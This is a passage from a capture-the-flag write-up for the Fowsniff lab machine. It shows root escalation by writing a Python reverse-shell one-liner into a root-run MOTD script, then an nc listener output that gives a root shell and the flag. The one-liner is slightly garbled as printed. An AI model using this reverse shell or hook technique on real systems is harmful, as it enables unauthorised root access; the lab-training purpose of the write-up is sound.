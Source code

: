 ![](Images/linpeas.png)

We found this cube.sh file in **/opt/** directory. when we look into the **/etc/update-motd.d** folder and the 00-header file shows that the /opt/cube/cube.sh file is run when a user connects to the machine using SSH (and that it will run as the root user).  

If we edit this file we can get into the root. 

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.35",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.f$$p2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Put this rev shell into that cube.sh file and exit on ssh service and relog into the ssh service. You can get the shell like this.

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/Fowsniff-CTF]
└──╼ $nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.9.2.35] from (UNKNOWN) [10.10.209.184] 42590
/bin/sh: 0: can't access tty; job control turned off
# cd /root
# ls
Maildir
flag.txt
# cat flag.txt
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.
```

You pwn the machine !! 

Thx for reading 